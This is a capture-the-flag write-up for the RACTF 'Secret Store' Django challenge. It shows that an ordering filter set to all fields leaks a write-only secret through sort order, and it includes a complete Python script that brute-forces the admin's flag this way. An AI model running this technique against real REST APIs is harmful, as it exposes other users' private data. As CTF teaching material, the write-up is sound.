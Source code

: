 ## RACTF - Secret Store / Web [ 300 points ] (6 solves)
**Description**

> How many secrets could a secret store store if a store could store
> secrets?

## General overview
The web app is a Django application where you can register/login as a user and save a secret text which shouldn't be visible to anyone else except you in your home page when you login. Other users can also post their own secret text and the goal is to find a way to stole the secret from other users in order to read the flag from the admin.
## Code audit
There is a rest framework implemented with [djangorestframework](https://pypi.org/project/djangorestframework/) for the secret text that users are posting. We can peek a look at his views and models inside the secret folder where the source is located. We can see the secret's model inside secret/models.py:

```python
class  Secret(models.Model):
	value  =  models.CharField(max_length=255)
	owner  =  models.OneToOneField(User, on_delete=CASCADE)
	last_updated  =  models.DateTimeField(auto_now=True)
	created  =  models.DateTimeField(auto_now_add=True)
```
And there is a model serializer for the model Secret inside secret/serializers.py:
```python
class  SecretSerializer(serializers.ModelSerializer):
	class  Meta:
		model  =  Secret
		fields  = ["id", "value", "owner", "last_updated", "created"]
		read_only_fields  = ["owner", "last_updated", "created"]
		extra_kwargs  = {"value": {"write_only": True}}

	def  create(self, validated_data):
		validated_data["owner"] =  self.context["request"].user
		if  Secret.objects.filter(owner=self.context["request"].user):
			return  super(SecretSerializer, self).update(Secret.objects.get(owner=self.context['request'].user), validated_data)
		return  super(SecretSerializer, self).create(validated_data)
```
From the serializer we can see that the fields owner, last_updated, created and (implicitly) the id are read only, and the value field is write only.
Inside secret/views.py we can see the views of the web app and what they are doing:
```python
class  SecretViewSet(viewsets.ModelViewSet):
	queryset  =  Secret.objects.all()
	serializer_class  =  SecretSerializer
	permission_classes  = (IsAuthenticated  &  IsSecretOwnerOrReadOnly,)
	filter_backends  = [filters.OrderingFilter]
	ordering_fields  =  "__all__"

class  RegisterFormView(CreateView):
	template_name  =  "registration/register.html"
	form_class  =  UserCreationForm
	model  =  User
	success_url  =  "/"

def  home(request):
	if  request.user.is_authenticated:
		secret  =  Secret.objects.filter(owner=request.user)
	if  secret:
		return  render(request, "home.html", context={"secret": secret[0].value})
	return  render(request, "home.html")
```
We can see the home page view which just asks the database if a logged in user has a secret and displays it to him if it does, inside the home page. Apart from this view we can see that is implemented a ViewSet which is basically an easy automated way to query the database and display to the user the results. In our case we can get a json with all read only fields of the Secret serializer for example visiting [http://challange/api/secret?format=json](https://www.django-rest-framework.org/api-guide/format-suffixes/) we get as a result:

    [{"id":1,"owner":1,"last_updated":"2021-08-04T21:55:59.750611Z","created":"2021-08-04T21:55:32.221867Z"},{"id":2,"owner":8,"last_updated":"2021-08-13T20:16:05.306976Z","created":"2021-08-13T20:16:05.307065Z"},{"id":3,"owner":12,"last_updated":"2021-08-13T22:17:15.718312Z","created":"2021-08-13T21:41:25.913725Z"},{"id":4,"owner":113,"last_updated":"2021-08-14T16:08:40.385043Z","created":"2021-08-14T16:07:45.011707Z"},{"id":5,"owner":111,"last_updated":"2021-08-14T17:50:00.910477Z","created":"2021-08-14T17:50:00.910544Z"},{"id":6,"owner":126,"last_updated":"2021-08-15T08:23:42.895236Z","created":"2021-08-15T08:04:32.918062Z"},{"id":7,"owner":129,"last_updated":"2021-08-15T08:53:06.531769Z","created":"2021-08-15T08:53:06.531818Z"},{"id":8,"owner":133,"last_updated":"2021-08-15T17:48:13.303999Z","created":"2021-08-15T12:34:30.069458Z"},{"id":9,"owner":134,"last_updated":"2021-08-15T17:17:50.206823Z","created":"2021-08-15T17:17:33.212906Z"}]
Reading carefully django's rest framework documentation for [OrderingFilter](https://www.django-rest-framework.org/api-guide/filtering/#orderingfilter) we can see that we can supply an ordering query parameter to filter (sort) out our json output to our needs. Reading further the documentation we spot the following line:

> If you are confident that the queryset being used by the view doesn't contain any sensitive data, you can also explicitly specify that a view should allow ordering on _any_ model field or queryset aggregate, by using the special value `'__all__'`.

Which is exactly our case :), our own little SecretViewSet specifies that we can filter by any field our query, so basically we can post a secret with initial value `ractf{` , order the output by `values` and compare our own secret value with the admin's secret value which i assume is the user with id=1 and owner=1.
## Exploit

```python
import requests
from bs4 import BeautifulSoup
import json
import string

def find_owner(orderings, owner):
    for i, ordering in enumerate(orderings):
        if ordering['owner'] == owner:
            return i
    
    #Owner not found in orderings
    return None

session = requests.Session()
url = 'http://challenge:port' # Change this
login_url = f'{url}/auth/login/'
logout_url = f'{url}/auth/logout/'
api_secret_url = f'{url}/api/secret/'

r = session.get(url = login_url)
parse = BeautifulSoup(r.text, "html.parser")

# Extract csrf token to be able to login
csrf_token = parse.find_all('input')[0]['value']

# You have to register agent007 first.
post_data = {
    'csrfmiddlewaretoken': csrf_token,
    'username': 'agent007',
    'password': 'SecretPassword007.'
}

flag = r'ractf{' # Final flag ractf{data_exf1l_via_s0rt1ng_0c66de47}

# Sign in to agent007
r = session.post(url  = login_url, 
                 data = post_data)

# Let's save some secrets ;)
r = session.post(url = api_secret_url, 
                 json = {
                     'value': flag
                 }, 
                 headers = {
                     'X-CSRFToken': session.cookies['csrftoken']
                 }
)

print(f'Status code === {r.status_code}')
_, owner, _, _ = json.loads(r.text).values() # Get our owner id in order to be able to recognize our position in the final orderings

# When positive means we surpassed the flag value
# When negative means we need to go forward
# When from negative becomes positive it means the previous character was the correct character of the nth pos of the flag
cmp = 0

alphabet = string.digits + ':_`' + string.ascii_letters + '}~'
while not '}' in flag:
    # Iterate through every character in the alphabet
    # Post the flag appended with this character as our little secret and compare the results to bruteforce the characters of the flag
    for c in alphabet:
        r = session.post(url = api_secret_url, 
                    json = {
                        'value': flag + c
                    }, 
                    headers = {
                        'X-CSRFToken': session.cookies['csrftoken']
                    }
        )
        
        orderings = json.loads(
            session.get(url = api_secret_url + '?format=json&ordering=value').text
        )
        
        orderings_user_idx = find_owner(orderings, owner)
        orderings_flag_idx = find_owner(orderings, owner = 1)
        cmp = orderings_flag_idx - orderings_user_idx
        if cmp < 0:
            prev_c = chr(ord(c)-1)
            print(flag + prev_c)
            flag += prev_c
            break
```

